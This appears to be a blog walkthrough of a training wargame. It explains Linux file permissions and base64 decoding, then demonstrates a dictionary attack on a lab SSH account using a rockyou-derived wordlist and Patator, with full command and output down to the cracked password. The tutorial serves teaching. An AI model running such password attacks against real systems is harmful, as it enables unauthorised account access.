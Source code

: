 ```yaml
---
layout: post
title:  "The Hax that Rocks the Cradle Brute Force"
date:   2022-08-26 17:19:23 -0500
categories: thehaxthatrocksthecradle
---
```


<br>
# Level 35 - This One's Not About Brute Force!
Ok, so the rest of these levels will involve brute forcing, but this one doesn't. I just didn't want to have a whole separate page for this one. \\(o_O)/
<br>Sekhmet, in all her anger about Mafdet, also found some other account info!

<details>
<summary>Level 35 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Find out how to make a file executable in Linux.
</span>
</details>
<br>
<details>
<summary>Level 35 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Linux doesn't let you run/execute a program unless the file specifically has the permissions set up to do so. Check the permissions with <code>ls -la</code>:
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rw-rw-r-- 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
The file permissions are all those letters/symbols at the beginning of the second line, to the left of the number 1. But how do you read all that mess? To fully understand it would require a long explanation, so let's just go with the basics for now and explain it all with some handy color-coding.<br>
<br>
<code>
<span style="color:purple" >-</span>
<span style="color:DarkOrange" >rw-</span>
<span style="color:DarkSlateBlue" >rw-</span>
<span style="color:DeepPink" >r--</span>
 1 
 <span style="color:DarkOrange" >sekhmet </span>
<span style="color:DarkSlateBlue" > sekhmet </span>
 16744 Apr  2  2021 runthisthing</code><br>
<br>
<span style="color:purple" ><code>-</code> - This will typically just be a <code>-</code> if it's a file or a letter <code>d</code> if it's a directory. Ours is a file, we don't need anything else from it here.</span><br>
<span style="color:DarkOrange" ><code>rw-</code> - This indicates that the owner of the file can read it and write to it. A letter means the permission is present, a dash means that permission is not present. The owner in this case is our buddy Sekhmet (the first <code>sekhmet</code> is the owner)</span> <br>
<span style="color:DarkSlateBlue" ><code>rw-</code> - Same thing here, but this is for the owning group. The second <code>sekhmet</code> is the owning group. We can see that the sekhmet group can also read and write to the file</span><br>
<span style="color:DeepPink" ><code>r--</code> - These are the permissions for everyone else. Everyone can read the file, but they can't write to it.</span><br>
<br>
So now what? Well, we want to add <b>execution</b> permissions to the file, which would be represented by an <code>x</code> instead of the <code>-</code> in the third column for each permission set. The easiest way to do that would be:<br>
<code>chmod +x runthisthing</code><br>
<br>
This adds the <code>x</code> to all the permissions for this file. Note that this means everyone can execute this file now! You can get more granular, but we're just going for quick and easy right now.<br>
<br>
Check the permissions after running that and they should be:<br>
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rwxrwxr-x 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
Ok, so now you can allegedly execute this file. Right. Let's do that now.<br>
How?<br>
<br>
To run an executable file in the directory you're currently in at the CLI:<br>
<pre>./runthisthing
                                                 >=>                    
                                                 >=>                    
  >==>    >=>   >=>   >==>       >==> >=>  >=> >=>>==> >=>  >=>  >===>  
>>   >=>    >> >=>  >>   >=>   >=>    >=>  >=>   >=>   >=>  >=> >=>     
>>===>>=>    >>     >>===>>=> >=>     >=>  >=>   >=>   >=>  >=>   >==>  
>>         >>  >=>  >>         >=>    >=>  >=>   >=>   >=>  >=>     >=> 
 >====>   >=>   >=>  >====>      >==>   >==>=>    >=>    >==>=> >=> >=> 
                                         
You have executed the program as required
Decode for the password:
ZXhlY3V0aXZlT3JkZXJz
</pre><br>
These people and their encoding!! (╯°□°）╯︵ ┻━┻)<br>
Decode as usual from base64:<br>
<pre>
└─$ hURL -b ZXhlY3V0aXZlT3JkZXJz           

Original string       :: ZXhlY3V0aXZlT3JkZXJz
base64 DEcoded string :: executiveOrders
</pre>

<i>There's a lot more to permissions that I didn't cover - you can certainly find more info online, such as here: <a href="https://linuxhandbook.com/linux-file-permissions/">https://linuxhandbook.com/linux-file-permissions/</a></i>
</span>
</details>
<br>
# Level 36 - This One is About Brute Force! What Does That Mean Anyway?
Let's get into some password attacks!
A short/quick definition of brute forcing an account would be going through a bunch of guesses for the password for the account. There are a few different types. 

A true brute force, or key space brute force is the most ... brutish of them all. For example - we did just that in the earlier examples. Our key space was just 26 letters at first (26 guesses), then 2 digit numbers (100 guesses), then 4 digit numbers. That last one took us up to 10,000 possible guesses (0000-9999). What if we add lowercase letters to that mix?
We'd be up to 1,679,616 guesses. You can see how this starts to get impractical pretty quickly. Enter the dictionary attack!

A dictionary attack uses a list of likely passwords. Where does that list come from? Could be any of a variety of places:
* a breach of a company's database
* a compilation of words from a website the victim frequents
* a list of commonly used passwords
* a list you sat there typing up by hand because ... you were working on your typing skills, maybe?

This type of attack relies on someone using something in your list as their password, so the art of getting a list together is another subject that could make for a book by itself. We will instead take advantage of someone else's work and use a pre-existing list.

<details>
<summary>Level 36 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Download the password list</li>
<li>Find a way to perform a brute force password attack against SSH - hint for the hint, look up how to do it with Patator. Hint for that - honestly, just check out patator's awesome help menu from the command line!</li>
<li>Perform the SSH password attack</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 36 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Download the password list</li>
<ul>
<li><code>wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-15.txt</code><br>
This is a cut down version of a very well known password list. This GitHub repository has a ton of lists for trying to discover/crack all sorts of stuff including usernames, passwords, directories, and more!</li>
</ul>
<li>Find a way to perform a password attack against SSH</li>
<ul>
<li>I'll be using Patator in this case, but there are other applications you could use instead.</li>
<li>If you checked out the tool's help (like I said you should!!) you might have seen something like:
<pre>
└─$ patator --help          
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: patator module --help

Available modules:
  + ftp_login     : Brute-force FTP
  + ssh_login     : Brute-force SSH
  + telnet_login  : Brute-force Telnet
... etc
</pre>
Then check out the module specific help:
<pre>
└─$ patator ssh_login --help
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: ssh_login <module-options ...> [global-options ...]

Examples:
  ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

Module options:
  host          : target host
  port          : target port [22]
  user          : usernames to test
  password      : passwords to test
  auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
  keyfile       : file with RSA, DSA or ECDSA private key to test
  persistent    : use persistent connections [1|0] 
</pre>
From the example given and the option descriptions, we can start filling in our environment's info as seen in the next step.
</li>
</ul>
<li>Perform the SSH password attack</li>
<ul>
<li><pre>
└─$ patator ssh_login host=10.0.0.19 user=brutus password=FILE0 0=rockyou-15.txt
21:14:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7 at 2022-09-29 21:14 CDT
21:14:26 patator    INFO -                                                                              
21:14:26 patator    INFO - code  size    time | candidate                          |   num | mesg
21:14:26 patator    INFO - -----------------------------------------------------------------------------
21:14:29 patator    INFO - 1     22     3.506 | 123456                             |     1 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.497 | 12345                              |     2 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.506 | 123456789                          |     3 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.502 | iloveyou                           |     5 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.524 | password                           |     4 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.508 | princess                           |     6 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | 1234567                            |     7 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.505 | 12345678                           |     8 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | abc123                             |     9 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | nicole                             |    10 | Authentication failed.
21:14:33 patator    INFO - 1     22     3.496 | daniel                             |    11 | Authentication failed.
</pre>
</li>
<li>I left off the <code>-x ignore:mesg="Authentication failed."</code> in this example just so you could see the process as it tries guessing all the different passwords. You can add that to the end of the command to make the output cleaner. Note that it will look like it's not doing anything for a while if you do that.</li>
<li>...or leave it as is and just scroll through the output a bit to find ...<br>
<pre>
...
21:19:16 patator    INFO - 1     22     3.500 | jessie                             |   215 | Authentication failed.
21:19:16 patator    INFO - 0     30     0.111 | hellokitty                         |   216 | SSH-2.0-OpenSSH_8.9p1 Ubuntu-3
21:19:16 patator    INFO - 1     22     3.495 | jeremy                             |   207 | Authentication failed.
...
</pre>
</li>
<li>The successful login attempt will just show the SSH version on the server in this case.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 37 - This One is About Brute Force!


<details>
<summary>Level 37 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li></li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 37 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">

</span>
</details>
<br>